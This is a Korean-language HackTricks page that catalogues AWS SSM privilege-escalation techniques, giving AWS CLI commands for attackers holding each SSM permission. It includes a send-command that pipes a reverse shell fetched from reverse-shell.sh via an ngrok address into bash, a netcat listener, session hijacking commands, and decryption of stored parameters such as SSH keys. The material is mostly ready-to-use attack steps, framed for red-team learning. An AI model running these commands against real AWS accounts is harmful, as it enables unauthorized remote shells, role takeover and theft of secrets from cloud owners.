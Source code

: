 # AWS - SSM 권한 상승

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>을 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 상품**](https://peass.creator-spring.com)을 구매하세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**telegram 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)를 **팔로우**하세요.
* **HackTricks**와 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하여 **해킹 트릭을 공유**하세요.

</details>

## SSM

SSM에 대한 자세한 정보는 다음을 참조하세요:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

**`ssm:SendCommand`** 권한을 가진 공격자는 Amazon SSM Agent가 실행되는 인스턴스에서 **명령을 실행**하고 그 안에 있는 IAM 역할을 **침해**할 수 있습니다.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"

# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**잠재적 영향:** SSM 에이전트가 실행 중인 EC2 IAM 역할로의 직접적인 권한 상승.

### `ssm:StartSession`

**`ssm:StartSession`** 권한을 가진 공격자는 Amazon SSM 에이전트가 실행 중인 인스턴스에서 **SSH와 유사한 세션을 시작**하고 그 안에 있는 실행 중인 IAM 역할을 **침해**할 수 있습니다.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
세션을 시작하려면 **SessionManagerPlugin**이 설치되어 있어야 합니다: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**잠재적 영향:** SSM 에이전트가 실행 중인 EC2 IAM 역할에 대한 직접 권한 상승.

#### ECS로의 권한 상승

**ECS 작업**이 **`ExecuteCommand`가 활성화**된 상태로 실행될 때, 충분한 권한을 가진 사용자는 `ecs execute-command`를 사용하여 컨테이너 내에서 명령을 실행할 수 있습니다.\
[**문서**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/)에 따르면, 이는 "exec" 명령을 시작하는 장치와 SSM 세션 관리자를 통해 대상 컨테이너 간에 안전한 채널을 생성하여 수행됩니다.\
따라서 `ssm:StartSession` 권한을 가진 사용자는 해당 옵션이 활성화된 ECS 작업 내에서 쉘을 얻을 수 있습니다. 다음 명령을 실행하면 됩니다:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (55).png>)

**잠재적 영향:** `ExecuteCommand`가 활성화된 실행 중인 작업에 연결된 `ECS` IAM 역할로의 직접적인 권한 상승.

### `ssm:ResumeSession`

**`ssm:ResumeSession`** 권한을 가진 공격자는 **Amazon SSM 에이전트가 실행 중인 인스턴스에서 SSH와 유사한 세션을 다시 시작**할 수 있으며, **끊어진** SSM 세션 상태에서 **내부에서 실행 중인 IAM 역할을 침해**할 수 있습니다.
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**잠재적 영향:** SSM 에이전트가 실행되고 연결이 끊긴 세션과 함께 실행 중인 EC2 IAM 역할로의 직접적인 권한 상승.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

해당 권한을 가진 공격자는 **SSM 매개변수**를 나열하고 **평문으로 읽을 수** 있게 됩니다. 이러한 매개변수에서는 SSH 키나 API 키와 같은 **민감한 정보**를 자주 찾을 수 있습니다.
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**잠재적 영향:** 파라미터 내에서 민감한 정보를 찾을 수 있습니다.

### `ssm:ListCommands`

이 권한을 가진 공격자는 모든 **명령어**를 나열하고, 그 중에서 **민감한 정보**를 찾을 수 있습니다.
```
aws ssm list-commands
```
**잠재적 영향:** 명령줄 내에서 민감한 정보를 찾을 수 있습니다.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

이 권한을 가진 공격자는 모든 전송된 **명령**을 나열하고 생성된 **출력**을 읽을 수 있으며, 이를 통해 **민감한 정보**를 발견할 수 있습니다.
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**잠재적 영향:** 명령어 출력 내에서 민감한 정보를 찾을 수 있습니다.

### Codebuild

SSM을 사용하여 빌드 중인 codebuild 프로젝트에 접근할 수도 있습니다:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* 회사를 **HackTricks에서 광고**하거나 **PDF로 HackTricks를 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 상품**](https://peass.creator-spring.com)을 구매하세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**를** **팔로우**하세요.
* **HackTricks**와 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하여 여러분의 해킹 기법을 공유하세요.

</details>

